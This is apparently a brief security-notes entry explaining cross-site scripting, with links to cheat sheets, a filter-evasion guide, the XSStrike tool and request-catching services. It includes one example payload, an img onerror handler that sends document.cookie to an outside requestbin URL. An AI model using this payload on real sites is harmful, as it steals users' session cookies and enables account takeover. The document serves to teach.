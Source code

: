 The **XSS** vulnerability occurs when a user can control the content of a web page. A malicious code can be used to steal cookies of authentified users, redirect the user to a malicious site, or even execute arbitrary code on the user's machine.

Exemple of XSS :

```html
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

* [Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

* Filter Evasion

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) can be used to bypass XSS filters.



* [XSStrike](https://github.com/UltimateHackers/XSStrike)

	A python CLI tool for XSS detection and exploitation.

* [`requestb.in`](https://requestb.in/)

	Can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.

* [`hookbin.com`](https://hookbin.com/)

	Can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.